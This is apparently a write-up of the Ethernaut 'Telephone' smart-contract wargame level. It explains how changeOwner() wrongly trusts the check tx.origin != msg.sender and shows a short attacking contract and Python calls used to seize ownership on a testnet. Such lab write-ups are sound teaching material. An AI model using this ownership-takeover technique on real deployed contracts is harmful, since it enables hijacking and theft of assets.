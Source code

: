# Telephone

## Objectives

Claim ownership of the contract to complete this level.

## Solution

The function `changeOwner()` compares whether the address that sends the tx (`tx.origin`) is the same as the address that interacts with the contract (`msg.sender`). In this case it isn't, so the owner is changed as per the function's instructions:

```cs
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

Therefore, the only thing needed here is a attacking contract which interacts with the original Telephone contract. This way the contract is the `msg.sender` while the address that interacts with the attacking contract is the `tx.origin`.

## How I did it

1. I deployed the contract `TelephoneAttack` (at: `0x756a2E146F4f9659E7c16a90948A09aB09925F19`) which interfaces with the original Telephone contract and calls its `changeOwner()` function as follows:

```cs
function callChangeOwner(address _newOwner) external {
    telephoneContract.changeOwner(_newOwner);
}
```

where `_newOwner` is the address we want to assign as new contract owner for the Telephone contract.

2. Set the instance address and call the function with my account address from which I deployed the attacking contract:

```python
telephoneattack.callChangeOwner(acc.address, _from)  
```

Block explorer: https://rinkeby.etherscan.io/tx/0x20ffc17549522276816942656e14c9fe459064afd3f99e0f851ca555cfb64711

3. Check that we're the new owner

```python
owner_assertion = telephone.owner() == acc.address
print(f'The account owner matches my address: {owner_assertion}')
```

## Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x7c11bb8f65a6117b8f2e17622f3bbdcc81214b8d5daafa41bbbeb54dfc60e4b5
